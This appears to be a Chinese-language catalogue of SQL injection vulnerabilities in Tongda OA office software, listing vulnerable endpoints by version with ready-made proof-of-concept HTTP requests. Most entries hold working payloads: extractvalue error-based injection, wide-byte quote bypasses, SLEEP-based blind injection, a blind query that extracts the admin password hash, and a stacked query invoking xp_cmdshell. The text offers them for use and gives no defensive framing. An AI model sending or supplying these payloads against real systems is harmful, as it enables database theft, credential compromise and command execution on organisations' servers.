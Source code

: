 ```

（8）【<=11.7】interface/go.php floor报错注入
urlencode绕过注入检测
REF：https://f5.pm/go-45052.html#:~:text=urldecode%E5%88%A9%E7%94%A8%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4SQL%E6%B3%A8%E5%85%A5

（9）【<=2014】/inc/finger/use_finger.php extractvalue报错
POC:
GET /inc/finger/use_finger.php?USER_ID=-1%df%27and%20extractvalue(1,%20concat(0x5c,(select%20MD5(123456))))%23

(10)【<=2014】/general/ems/query/search_excel.php extractvalue报错
POC：
GET /general/ems/query/search_excel.php?LOGIN_USER_ID=1%bf%27and%20extractvalue(1,%20concat(0x5c,(select%20MD5(123456))))%23 
GET /general/ems/manage/search_excel.php?LOGIN_USER_ID=1&EMS_TYPE=1%df'and%20extractvalue(1,%20concat(0x5c,(select%20MD5(123456))))%23

(11)【<=11.6】/pda/reportshop/record_detail.php 延时注入
注入点有repid和mr_id两个，POC：
注入点=1%20and%20(substr(database(),1,1))=char(116)%20and%20(select%20count(*)%20FROM%20information_schema.columns%20A,information_schema.columns%20B)

（12）【<=11.10】/general/system/approve_center/flow_data/export_data.php 延时注入
REF：https://www.yulate.com/303.html

# yii2 框架注入
（13）【<=11.5】RepdetailController.php 延时注入
GET /general/appbuilder/web/report/repdetail/edit?link_type=false&slot={}&id=2 OR (SELECT 4201 FROM (SELECT(SLEEP(5)))birR)

（14）【<=11.5】Calendar.php的getcallist 逻辑盲注
POST /general/appbuilder/web/calendar/calendarlist/getcallist HTTP/1.1
starttime=1') AND (SELECT 8771 FROM (SELECT(SLEEP(5)))xrUG) AND ('CsEA'='CsEA&endtime=1598918400&view=month&condition=1

（15）【<=11.9】general/appbuilder/modules/portal/controllers/WorkbenchController.php 逻辑盲注/延时注入
REF：http://wiki.peiqi.tech/wiki/oa/%E9%80%9A%E8%BE%BEOA/%E9%80%9A%E8%BE%BEOA%20v11.9%20upsharestatus%20%E5%90%8E%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html

（16）【<=11.7】/general/appbuilder/web/officeproduct/productapply/applyprobygroup 延时注入
POST /general/appbuilder/web/officeproduct/productapply/applyprobygroup HTTP 1.1
arr[5][pro_id]=151';select sleep(5) %23

（17）【2015】/general/document/index.php/send/approve/finish 延时注入
POST /general/document/index.php/send/approve/finish
sid=1) and char(@`'`)  union select if(ord(mid(PASSWORD,33,1))=%d,sleep(8),1),1 from user WHERE BYNAME = 0x61646d696e #and char(@`'`)

（18）【<=11.5】/general/appbuilder/web/meeting/meetingmanagement/meetingreceipt 堆叠
POST /general/appbuilder/web/meeting/meetingmanagement/meetingreceipt HTTP/1.1
m_id=5&join_flag=2&remark='%3b%20exec%20master%2e%2exp_cmdshell%20'ping%20172%2e10%2e1%2e255'--
```
